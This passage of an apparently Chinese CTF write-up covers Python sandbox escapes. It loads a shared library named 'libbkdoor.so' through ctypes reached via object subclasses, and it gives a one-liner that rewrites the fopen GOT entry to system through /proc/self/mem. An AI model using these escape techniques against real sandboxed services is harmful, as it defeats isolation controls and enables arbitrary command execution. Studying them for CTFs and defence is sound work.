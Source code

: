 调用 ctypes 来载入 so 库：

```python
In [1]: # ''.__class__.__mro__[-1].__subclasses__()[235] => ctypes.CDLL

In [2]: # ''.__class__.__mro__[-1].__subclasses__()[236] => ctypes.LibraryLoader

In [3]: ''.__class__.__mro__[-1].__subclasses__()[236](''.__class__.__mro__[-1].__subclasses__()[235]).LoadLibrary('/tmp/libbkdoor.so')
Out[3]: <CDLL '/tmp/libbkdoor.so', handle 2831310 at 7ff2434184d0>

In [4]: __import__('os').system('cat /tmp/ls_home_ctf')
total 8
drwxr-xr-x 2 root root 4096 Apr  3 02:23 .
drwxr-xr-x 1 root root 4096 Apr  3 02:23 ..
-rw-r--r-- 1 root root    0 Apr  3 02:23 flag
Out[4]: 0
```

# 修改 GOT 表

类似 PWN 里的做法，可以把 `fopen` 的 GOT 改为 `system`。先用 objdump 查找：

```bash
/usr/bin ❯ objdump -R python | grep -E "fopen|system"
00000000008de2b8 R_X86_64_JUMP_SLOT  system@GLIBC_2.2.5
00000000008de8c8 R_X86_64_JUMP_SLOT  fopen64@GLIBC_2.2.5
```

一句话脚本：

```python
# 0x00000000008de2b8 => system
# 0x00000000008de8c8 => fopen
(lambda r, w:
    r.seek(0x00000000008de2b8) or
    w.seek(0x00000000008de8c8) or
    w.write(r.read(8)) or
    ().__class__.__bases__[0].__subclasses__()[40]('ls'))
(
    ().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'r'),
    ().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0)
)
```

# References

https://xz.aliyun.com/t/52
https://www.smi1e.top/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/
https://www.freebuf.com/articles/system/203208.html
https://bestwing.me/awesome-python-sandbox-in-ciscn.html
